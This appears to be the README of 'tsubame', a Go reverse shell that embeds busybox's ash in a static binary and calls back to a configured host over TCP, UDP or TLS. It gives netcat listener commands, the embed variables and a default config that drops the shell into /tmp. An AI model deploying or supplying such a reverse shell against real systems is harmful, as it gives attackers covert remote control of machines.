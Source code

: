 ## Overview

tsubame is a simple reverse shell written with the aim of being a self contained binary that could be deployed in environments where a shell (such as `bash` or `sh`) may not be available.

Upon compilation, tsubame produces a static binary which contains a copy of `busybox`'s `ash` using the [embed package](https://pkg.go.dev/embed). At runtime `tsubame` uses `ash` as a "back-end", passing commands read over the network and feeding it into `ash`. 

For this reason, a copy of `ash` which is compatible with the target architecture must be present in the `data/` directory during the build. The default copy of ash has been compiled for x8664 so the resulting binary will not work on devices using other architectures such as ARM.

For further details about configuration, please see the relevant section below.

## Usage

When executed, `tsubame` calls back to the host:port pair specified in the configuration. It is up to user to handle the incoming connection.

Here are some examples assuming `tsubame` had been configured to call back to `nc` running on port 1234, followed by a demo using `openssl s_server`.

```console
$ nc -l 1234        # tcp plain text
$ nc -ul 1234       # udp plain text
```

## Embedded files
As stated above, `tsubame` embeds some files in the final binary produced. Currently, the following files are included:

- `ash`: A copy of `busybox`'s ash
- `config.json`: The configuration file

All of the files that are embedded live in the `data/` directory. 

If the user would like to replace any of these files, they should place the files in `data/` and update the global variables in `config.go`.   

An example of this is shown in the configuration section.

## Configuration

Configuration is done through editing `data/config.json`. 

This configuration file is also embedded into the binary along side the shell, and is referenced by `tsubame` at runtime. 

Please do not rename the file, or the program produced will not work.

As stated earlier, any files to be embedded should be placed in `data/`, and the appropriate variables in `config.go` should be updated. 

```go
//go:embed data
var fs embed.FS

var DefaultConfigFile = "config.json"       // This
var DefaultShell = "ash"                    // And this.
```

The following is a description of the parameters in the configuration file:

- `address`: The IP address or the host name of the machine to connect to
- `port`: The port to connect to.
- `protocol`: The protocol configuration. 
    - `conn_type`: Either "udp" or "tcp"
    - `tls`: Toggles whether to use TLS or not. Currently TLS is only supported when `conn_type` is  "tcp".
- `timeout`: The time out value in **seconds**. The process will automatically terminate if there is no input for the given timeout value. This is useful when using `udp`, where there is no concept of a session. If the server side-process (the listening process) terminates for some reason, the shell will be running on the target machine indefinitely if it were not for the timeout.
- `shellpath`: The directory `ash` should be written to.
- `debug`: Toggle debug output.

Default config file: 

```json
{
	"address": "localhost",
	"port": 1234,
	"protocol": {
		"conn_type": "tcp",
		"tls": true
	},
	"timeout": 5,
	"shellpath": "/tmp",
	"debug": true
}
``` 
## Disclaimer

This program was written for educational purposes. The author will not take responsibility for the actions of others.
